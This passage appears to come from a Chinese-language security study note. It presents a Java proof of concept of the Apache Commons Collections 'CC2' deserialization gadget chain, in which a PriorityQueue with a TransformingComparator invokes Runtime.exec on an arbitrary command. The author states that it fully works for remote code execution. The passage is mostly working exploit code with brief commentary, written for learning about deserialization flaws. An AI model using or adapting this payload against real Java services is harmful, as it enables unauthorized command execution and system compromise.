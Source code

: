 ```java

    static Object cc2(String command) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{command})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator transforming_Comparator = new TransformingComparator(transformerChain);
        //这之前都是一样的
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2); //给优先队列中添加两个元素

        //利用反射来设置PriorityQueue对象的comparator属性
        Field field = priorityQueue.getClass().getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transforming_Comparator);
        return priorityQueue;

    }


    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }


}

```



这个demo完全可用，可以rce，但是不是网上公开的cc2，我们再来看看网上的cc2里面怎么做的。这样可以学习一些新东西


